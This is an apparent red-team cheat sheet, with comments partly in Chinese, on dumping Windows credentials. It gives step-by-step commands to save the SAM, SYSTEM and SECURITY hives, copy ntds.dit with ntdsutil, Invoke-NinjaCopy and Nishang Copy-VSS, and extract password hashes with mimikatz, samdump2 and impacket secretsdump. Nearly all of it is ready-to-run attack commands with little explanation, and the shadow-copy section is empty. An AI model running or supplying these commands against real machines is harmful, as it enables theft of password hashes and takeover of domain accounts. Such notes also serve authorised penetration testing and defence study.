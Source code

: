 
#### SAM and SYSTEM
+ located in C:\windows\system32\config\SAM and C:\windows\system32\config\SYSTEM. cannot just copy them in a regular way because they protected
+ save from registry and copy.
+ copy via Invoke-NinjaCopy
+ volume shadow copy, need administrator; vsadmin only work on windows server.

```bash
# way 1: save registry and copy.
## 获取注册表转储文件，默认存在目标机C:\目录下
## 目标机中文系统会提示解码错误，不影响使用
## /y:强制覆盖已存在文件，避免目标机C:\目录下存在同名文件，命令会询问是否覆盖，半交互模式程序会卡住
reg save HKLM\SYSTEM system.hive /y
reg save HKLM\SAM sam.hive /y
reg save HKLM\SECURITY security.hive /y  ## 非必须

## mimikatz 导出hive
mimikatz.exe "log lsadump.log" "privilege::debug" "lsadump::sam /sam:c:\temp\sam.hive /system:c:\temp\system.hive" "exit"

## dump creds via impacket or samdump2
samdump2 SYSTEM SAM
python3 secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL

# way2: Invoke-NinjaCopy
## make a copy of SAM, SYSTEM and ntds.dit
## https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\system" -LocalDestination "c:\copy_of_local_system"
Invoke-NinjaCopy.ps1 -Path "C:\Windows\ntds\ntds.dit" -LocalDestination "c:\copy_of_local_ntds.dit"

# way3: shadow copy
```

#### AD ntds
> The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.
+ located in: %SystemRoom%/NTDS/ntds.dit; [read more on hacktricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#active-directory-credentials-ntds.dit)
  > Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory (you can find the latest accessed data probably because of the performance improve by using a cache).
+ Copying NTDS.dit using Ntdsutil, Available since Windows Server 2008.
+ volume shadow copy also works, need system file too.
+ extract creds automatically using a valid domain admin user
+ for big ntds.dit file, extrack with [gosecretsdump](https://github.com/c-sto/gosecretsdump)

```bash
# ntds.dit copy.
## ntdsutil copy
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit

## Nishang 提取Ntds.DIT, SAM, SYSTEM
## https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\

# ndts dump creds.
## impacket
impacket-secretsdump -system /root/SYSTEM -ntds /root/ntds.dit LOCAL -outputfile dumpcreds
```